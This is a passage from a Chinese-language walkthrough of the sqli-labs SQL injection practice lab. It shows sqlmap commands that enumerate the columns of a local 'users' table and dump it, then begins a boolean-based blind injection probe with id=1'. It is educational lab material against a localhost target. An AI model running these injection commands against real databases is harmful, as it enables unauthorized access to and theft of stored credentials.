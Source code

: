 ```sql
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --columns 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/59282e807ea62613f79cb917bb3cec7e.png" alt="" style="max-height:247px; box-sizing:content-box;" />


我们就可以直接得出值

```perl
sqlmap -u "http://127.0.0.1/sqli-labs/Less-1/?id=1" -D security -T users --dump
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/af6ea1938d6f5787666e09ed47486cb0.png" alt="" style="max-height:316px; box-sizing:content-box;" />


## Less-2 -4

差不多 注入即可

## Less -5 布尔

```cobol
id=1
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1845c59a4d42c565fae8ef765f0b7e71.png" alt="" style="max-height:318px; box-sizing:content-box;" />




```cobol
id=1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/47474e04eb129e53ce232efd455f28e0.png" alt="" style="max-height:350px; box-sizing:content-box;" />


我们看看能不能直接爆字段



<img src="https://i-blog.csdnimg.cn/blog_migrate/f8efb64b3761456ba8e4d75c3c769e0c.png" alt="" style="max-height:218px; box-sizing:content-box;" />


发现是可以的

但是这里不能使用联合注入 因为真 只会返回 You are in的页面

错误就返回什么都没有的页面

我们这个时候可以通过逻辑判断来猜

### 数据库
